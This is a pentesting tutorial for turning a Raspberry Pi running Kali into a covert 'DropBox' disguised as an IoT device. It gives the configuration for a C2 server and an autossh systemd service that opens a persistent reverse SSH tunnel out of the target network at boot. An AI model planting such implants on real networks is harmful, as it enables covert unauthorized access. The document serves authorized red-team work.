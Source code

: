 # How to create a simple Pentesting DropBox using a raspberry pi

Why should I use a Raspberry Pi? The main reason is for its small size. It’s possible to hide it in plain sight and easily disguise it as an IoT device on the network.

Another reason is that most companies’ firewalls will block unauthorized access to it. So if one can smuggle a small device onto its network, it’s possible to get a reverse shell and scan the network from somewhere else.
## How to get pass firewall?

The best possible solution is to get the DropBox inside the network to reach back to a C2 (command and control) server. And reach the DropBox from anywhere using the reverse shell through SSH, using the C2 as a passthrough tunnel.

![Reverse Shell](https://github.com/dlirao4891/DropBox/blob/main/Images/blog.finxter.com-reverseshell-768x432.jpg?raw=true)

## Kali installation 
### Image download and install
Kali can be installed right from the [Raspberry Pi Imager](https://www.raspberrypi.com/software/) or following the guide on [Kali](https://www.kali.org/docs/arm/raspberry-pi-4/) The Process is really easy.

![Kali Installation](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-install.png?raw=true)

After installing Kali on the Raspberry Pi, SSH into it. You can find its IP address using your router.

![IP got from router](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-IP.png?raw=true) <br>
My case I got: `10.10.10.6`

```bash
ssh kali@[kali-IP]
```
The default user and password are `kali:kali`

![First shell](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-first-shell.png?raw=true)

Update and upgrade 
```bash
sudo apt update && sudo apt full-upgrade
```

**After that, change the default password for the `Kali` user.**

![Change password](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-passwd.png?raw=true)

### Minor modifications

The whole idea is to hide in plain sight, so some modifications must be made so the DropBox can disguise as an IoT device.

First, change the hostname in two locations: `/etc/hostname` and `/etc/hosts`. 
Here, anything is valid as long as it looks like it belongs to the company. If you can get the scheme of how the devices are named, it can be easily passed off as just another host.

>On `/etc/hostname`, choose the name you want.
>On `/etc/hosts`, use the same name on the line containing the loopback address (`127.0.1.1`).

![Change hostname](https://github.com/dlirao4891/DropBox/blob/main/Images/kali-changehostname.png?raw=true)

After this step, the DropBox will mostly look like it’s just another host on the network. Of course, there are situations when the company adopts MAC-address filtering. And This can be a problem.

At this point, the basic configuration is done on the Raspberry Pi. But we will come back to it soon.

---
## C2 settings

A crucial part of this is the Command and Control server. It’s the middle-man in the communication. The DropBox will try to make contact with it, and when the connection is established, the reverse shell will be accessible.<br>

![C2 info](https://github.com/dlirao4891/DropBox/blob/main/Images/C2-info.png?raw=true)
<br>

For this, I decided to use a Ubuntu 22.04 LTS on [Linode](www.linode.com). It's just a basic shared CPU with privet IP.
### SSH configuration
On the file `/etc/ssh/sshd_config`, we have to change three lines:

```bash
AllowTcpForwarding yes
GatewayPorts yes
PasswordAuthentication yes
```
This will enable port forwarding and enable authentication using a password.
<br>
![C2 info](https://github.com/dlirao4891/DropBox/blob/main/Images/C2-sshconf.png?raw=true)
<br>

After changing the lines, just restart the SSH service.
```bash
sudo service ssh restart
```

### User
A new Ubuntu “linode” installation will have only the root user, so we’ll add a new user.
```bash
adduser [username]
```

After this, the **basic** configuration for the C2 will be ready.

> For a real engagement, it’s recommended to strengthen the security of the C2. **This configuration is just for demonstration.**
 
---

## Create the reverse shell tunnel

At this point, we go back to the Raspberry Pi, and the main idea now is to generate a pair of keys (public and private), so the DropBox can authenticate SSH into the C2 server without a password. For this, we will create an `SSH keypair`.
```bash
ssh-keygen
```
Just generate the keypair; there is no need for a password.

Copy the public key to the C2 server
```bash
ssh-copy-id [username]@[CnC-Server-IP]
```
Provide the password for the user.

After this, it’s not necessary to enter a password to connect to the server.
```bash
ssh [username]@[CnC-Server-IP]
```

### AutoSSH

Install `AutoSSH`. For more info about it see [SSH tunnelling for fun and profit: Autossh (everythingcli.org)](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/)

```bash
apt install autossh -y
```

The idea is to automate the SSH tunnel. So when the DropBox is turned on and is plugged into a network, it will automatically connect to the C2, and the reverse shell will be on.

After the installation is complete, we should create a service, so the autossh will start automatically. To create the service, first create the file `/etc/systemd/system/[Some_Cool_Service_Name].service` and add the following to it:
```bash
[Unit]
 Description=/etc/[Same_Cool_Sevice_Name] Compatibility
 ConditionPathExists=/etc/[Same_Cool_Sevice_Name]
[Service]
 Type=forking
 ExecStart=/etc/[Same_Cool_Sevice_Name] start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

And then the next file `/etc/[Same_Cool_Sevice_Name]`. Add the following:
```bash
#!/bin/bash -e
autossh -M 0 -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 6969:localhost:22 -i /home/kali/.ssh/id_rsa [kali]@[CnC-Server-IP] &
exit 0
```

- The `-M` is the monitoring port. autossh will send test data to check if it is still connected to the server. The autossh manual suggests using `ServerAliveInterval` and `ServerAliveCountMax` on recent versions of OpenSSH. But the monitoring port can be turned off using the value 0.
- The `-f` causes `autossh` to drop to the background before running `ssh`.
- The `-N` tag is for not executing a remote command. 
- Tag `-o` is to specify the options.
- The `-R` option is used to set the remote port. In this case, the Dropbox will be accessible on port 6969. If the organization has strict outbound filtering policies, a good option for this is port 443.
- The `-i` sets the location from where `ssh` will find the privet key.
- And the `&` is to prevent the DropBox to hang at boot.

Make `/etc/[Same_Cool_Sevice_Name]` executable:
```bash
chmod +x /etc/[Same_Cool_Sevice_Name]
```

Enable `[Same_Cool_Sevice_Name].service`

```bash
systemctl enable [Same_Cool_Sevice_Name]
systemctl start [Same_Cool_Sevice_Name].service
```

## Test connection

After plugging the DropBox into a test network, you can check the SSH connection by logging in first from the C2 server:

```bash
ssh kali@localhost -p 6969
```
Enter the password for the `kali` user. Note that the port must be the same one that was set on `autossh`.

Next, you can log in from any other place:

```bash
ssh kali@[CnC-Server-IP] -p 6969
```
